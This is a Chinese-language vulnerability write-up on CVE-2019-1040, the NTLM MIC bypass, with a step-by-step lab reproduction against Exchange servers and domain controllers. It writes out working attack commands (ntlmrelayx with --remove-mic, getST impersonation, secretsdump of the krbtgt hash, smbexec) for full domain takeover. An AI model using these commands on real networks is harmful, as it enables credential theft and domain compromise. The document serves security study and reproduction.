CVE-2019-1040 NTLM MIC 绕过漏洞¶
漏洞背景和描述¶
2019 年 6 月 11 日，微软发布 6 月份安全补丁更新。在该安全补丁更新中，对 CVE-2019-1040 漏洞进行了修复。该漏洞存在于 Windows 大部分版本中，当中间人攻击者能够成功绕过 NTLM MIC 消息完整性校验保护时，Windows 存在篡改漏洞。成功利用此漏洞的攻击者可以获得降级 NTLM 安全功能的能力。要利用此漏洞，攻击者需要篡改 NTLM 交换，然后攻击者可以修改 NTLM 数据包的标志，而不会使签名无效。结合其他漏洞和机制，在某些场景下攻击者可以在仅有一个普通域账号的情况下接管全域！
漏洞原理¶
这个漏洞最核心的地方在于安全研究员能绕过 NTLM MIC 消息完整性校验。那么安全研究员是如何绕过 NTLM MIC 消息完整性校验的呢？
由于 Microsoft Windows 服务器允许无 MIC 消息完整性校验的 NTLM Authenticate 消息，因此该漏洞绕过 MIC 消息完整性校验的思路是取消数据包中的 MIC 标志以此来取消 MIC 校验，取消 MIC 校验操作如下：
- 从
NTLM Authenticate消息中删除 MIC 字段和 Version 字段，如图所示： - 将
NEGOTIATE_VERSION标志位设置为 Not set，如图所示：


漏洞完整利用链¶
绕过 NTLM 的 MIC 消息完整性校验只是第一步，成功绕过 NTLM 的 MIC消息完整性校验之后我们能做什么呢？
这里漏洞完整利用攻击链结合 NTLM Relay 进行利用。完整攻击链如下：
1）使用域内任意有效帐户，通过 SMB 连接到目标机器，使用 Print Spooler Bug漏洞或 PetitPotam 漏洞强制触发目标机器向指定的主机进行 NTLM 认证。
2）中继服务器收到目标机器的 NTLM 认证流量后，通过删除相应字段绕过 NTLM的 MIC 完整性校验并通过修改 NTLM 数据包的标志位使得其从 SMB 协议中继到LDAP 协议不需要签名。
3）使用中继的 LDAP 流量，通过 LDAP 协议远程连接域控，执行高权限操作，赋予指定的帐户高权限。
4）使用提升了权限的帐户进行后利用，接管全域。
1.触发目标 NTLM 请求¶
首先，攻击者需要目标发起 NTLM 请求才能进行 NTLM Relay 利用，这里可以利用打印机漏洞 Print Spoole Bug 或者微软加密文件系统远程协议(MS-EFSRPC)漏洞 PetitPotam 来强制触发目标主机向指定的主机进行 NTLM 认证。
2.LDAP 签名绕过¶
由于通过 Print Spooler Bug 和 PetitPotam 触发的 NTLM 认证都是基于SMB 协议的。因此安全研究员需要将 SMB 协议的身份验证流量通过 LDAP 协议中继到 DC 域控。但是由于 NTLM 协议的工作方式，无法直接将 SMB 协议流量中继到 LDAP 协议。默认情况下，客户端和域控或 Exchange 服务器进行 SMB 通信时，是强制要求签名的。其 NTLM 身份验证流量的如下标志均为 Set：
- Negotiate Key Exchange
- Negotiate Always Sign
- Negotiate Sign
如图所示，通过 WireShark 抓包可以看到，默认情况下，SMB 协议的NTLM 身份验证流量的如下标志位均为 Set。

此时将 SMB 流量中继到 LDAP 时，由于 Negotiate Sign 和 Negotiate AlwaysSign 标志为 Set，该标志会触发 LDAP 签名。而安全研究员又无法构造签名，因此会被 LDAP 协议忽略，导致攻击失败。前面我们提到了 CVE-2019-1040 最核心的地方就在于安全研究员能绕过 NTLM 的 MIC 消息完整性校验，导致安全研究员可以任意修改 NTLM 认证的数据包。因此，安全研究员在绕过 MIC 消息完整性校验之后，可以修改流量的标志位以协商不开启 LDAP 签名校验。具体措施如下，将以下标志位设置为 Not set：
- Negotiate Key Exchange
- Negotiate Always Sign
- Negotiate Sign
如图所示，可以看到安全研究员已经伪造这几个字段为 Not set 了。

3.攻击目标的选择¶
攻击目标的选择可以是域内的任意机器。这里我以域控和 Exchange 服务器为例，原因在于默认情况下，域控和 Exchange 服务器在域内具有高权限，对其进行攻击可以直接接管全域！
• 攻击 Exchange 服务器：使用任何有效域用户，利用 Print Spooler Bug 或PetitPotam 强制触发目标 Exchange 服务器向攻击者主机进行 NTLM 认证。攻击者机器接收到目标 Exchange 服务器的认证流量后，通过修改NTLM 认证数据包绕过 NTLM 的 MIC 消息完整性校验和 LDAP 签名，将其认证流量通过 LDAP 协议中继到 DC 域控。使用中继的 LDAP 身份验证，为攻击者指定的帐户授予 Dcsync 权限，然后使用指定的帐户利用 DCSync权限转储活动目录中所有密码哈希值！
• 攻击域控：使用任何有效域用户，在域内创建一个可控的机器帐户。然后使用 Print Spooler Bug 或 PetitPotam 强制触发目标域控向攻击者主机进行NTLM 认证。攻击者机器接收到目标域控的认证流量后，通过修改 NTLM认证数据包绕过 NTLM 的消息完整性校验和 LDAP 签名，将其认证流量通过 LDAP 协议中继到另一个 DC 域控。使用中继的 LDAP 身份验证，为攻击者指定的可控的机器帐户赋予基于资源的约束性委派权限。然后利用该机器帐户申请访问目标域控的服务票据，即可接管域控！
漏洞影响版本¶
- Windows 7 sp1 至 Windows 10 1903
- Windows Server 2008 至 Windows Server 2019
漏洞复现¶
以下漏洞复现演示攻击 Exchange 服务器和域控制器。
攻击 Exchange 服务器¶
实验环境如下：
- 域控：10.211.55.4
- Exchange 服务器：10.211.55.5，主机名为 MAIL
- 安全研究员：10.211.55.2
- 普通域用户：xie\hack P@ss1234
整个利用链如图所示：

首先在安全研究员机器 10.211.55.2 执行如下命令进行监听：
python3 ntlmrelayx.py --remove-mic --escalate-user hack -t ldap://10.211.55.4 -smb2support --no-dump -debug
参数含义如下：
- --remove-mic 参数用于绕过 NTLM 的 MIC 消息完整性校验
- –escalate-user 参数用于赋予指定用户 Dcsync 权限
- -t 参数将认证凭据中继到指定 ldap
- -smb2support 参数用于支持 SMB2 协议
- --no-dump 参数表示获得 Dcsync 权限后不 dump 域内哈希
- -debug 参数用于显示日志信息
如图所示，安全研究员运行命令进行监听：

接着安全研究员使用 printerbug.py 脚本执行如下命令，使用 xie\hack 用户连接Exchange 服务器，触发 Exchange 服务器的 Print Spooler Bug，该 bug 会强制触发目标 Exchange 服务器 10.211.55.5 向指定的安全研究员机器 10.211.55.2 机器进行 NTLM 认证。
如图所示，安全研究员使用打印机漏洞强制触发目标 Exchange 服务器10.211.55.5 向指定的安全研究员机器 10.211.55.2 机器进行 NTLM 认证。

然后安全研究员就可以收到目标 Exchange 服务器发过来的 NTLM 认证流量了，再将此 NTLM 认证流量绕过 NTLM 的 MIC 消息完整性校验后，通过修改LDAP 协商数据包中的相应标志位来使得协商不需要签名。再通过 LDAP 协议中继给域控，LDAP 中执行的高权限操作是赋予指定 hack 用户 DCSync 权限。
如图所示，可以看到该脚本首先会遍历中继的机器用户的权限，发现目标Exchange 服务器的机器账号在域内拥有创建用户和修改域 ACL 的权限。因此该脚本会选择修改域的 ACL 这种方式来提权，因为它相比于创建高权限用户更为隐蔽。该脚本通过修改指定 hack 用户的 ACL，为其赋予 DCSync 权限。

修改完 hack 用户的 ACL 后，此时域普通用户 hack 已经被赋予了 Dcsync 权限，可以直接导出域内所有用户的哈希。使用 secretsdump.py 脚本执行如下命令导出指定域用户 krbtgt 的哈希，即可接管全域！
如图所示，导出 krbtgt 用户哈希。

攻击域控制器¶
攻击域控制器需要目标域内至少存在两台域控：一台域控用于触发 Print Spooler Bug 或 PetitPotam，另一台域控用于中继 LDAP 流量执行高权限操作(同一机器的流量中继回去的话会失败)。
这里攻击域控有两种情况
- 目标域支持 ldaps：这样可以直接利用 ntlmrelayx.py 脚本在中继时创建机器用户并赋予委派权限(远程添加用户，需要 ldaps)。
- 目标域不支持 ldaps：我们可以首先自己创建一个机器用户，然后赋予委派权限。以下实验基于这种情况。
实验环境如下：
- 域控 1：10.211.55.4，主机名为 AD01
- 域控 2：10.211.55.5，主机名为 AD02
- 攻击机：10.211.55.2
- 普通域用户：xie\hack P@ss1234
整个利用链如图所示：

安全研究员利用普通的域账号 xie\hack 在域内主机上使用 PowerShell 脚本执行如下命令创建一个机器账号 machine$ ，密码为 root。
如图所示，可以看到创建机器用户 machine$ 成功。

然后在安全研究员机器 10.211.55.2 上执行如下命令进行监听
#目标域不支持 ldaps 的话，可以使用如下命令，指定刚刚创建的机器账号 machine$。
python3 ntlmrelayx.py -t ldap://10.211.55.4 -smb2support --remove-mic --delegate-access --escalate-user machine\$
#目标域支持 ldaps 的话，可以使用如下命令，会自动创建机器账号。
python3 ntlmrelayx.py -t ldaps://10.211.55.4 -smb2support --remove-mic --delegate-access
参数含义如下：
- -t 参数将认证凭据中继到指定 ldap
- -smb2support 参数用于支持 SMB2 协议
- --remove-mic 参数用于绕过 NTLM 的 MIC 消息完整性校验
- --delegate-access 参数用于指定委派
- –escalate-user 参数指定需要赋予委派权限的用户
如图所示，安全研究员运行命令进行监听：

接着安全研究员使用 printerbug.py 脚本执行如下命令，使用 xie\hack 用户连接域控制器 AD02，触发域控制器 AD02 的 Print Spooler Bug，该 bug 会强制触发目标域控制器 AD02 10.211.55.5 向指定的安全研究员机器 10.211.55.2 机器进行NTLM 认证。
如图所示，安全研究员使用打印机漏洞强制触发目标域控制器 AD02 10.211.55.5向指定的安全研究员机器 10.211.55.2 机器进行 NTLM 认证。

然后安全研究员就可以收到目标域控 AD02 服务器发过来的 NTLM 认证流量了，再将此 NTLM 认证流量绕过 NTLM 的 MIC 消息完整性校验后通过修改 LDAP 协商数据包中的相应标志位来使得协商不需要签名。再通过 LDAP 协议中继给域控AD01，LDAP 中执行的高权限操作是赋予指定机器用户 machine$对域控制器AD02 的基于资源的约束性委派。
如图所示，可以看到此时机器用户 machine$已经拥有对域控制器 AD02 基于资源的约束性委派了。

此时机器用户 machine$已经拥有对域控制器 AD02 基于资源的约束性委派了，可以执行如下命令进行后利用：
#以 administrator 的身份申请访问 ad02 机器的 cifs 服务票据
python3 getST.py -spn cifs/ad02.xie.com xie/machine\$:root -dc-ip 10.211.55.4 -impersonate administrator
#导入申请的服务票据
export KRB5CCNAME=administrator.ccache
#导出域内指定 krbtgt 用户的哈希
python3 secretsdump.py -k -no-pass AD02.xie.com -just-dc-user krbtgt
#远程连接 ad02 机器
python3 smbexec.py -no-pass -k AD02.xie.com -codec gbk
如图所示，利用完成后，即可导出域内任意用户哈希，也可以直接远程连接域控制器 AD02。

漏洞抓包分析¶
现在我们以攻击 Exchange 服务器为例，利用 WireShark 抓包分析整个漏洞利用过程。如图所示，是整个利用过程的分析图：
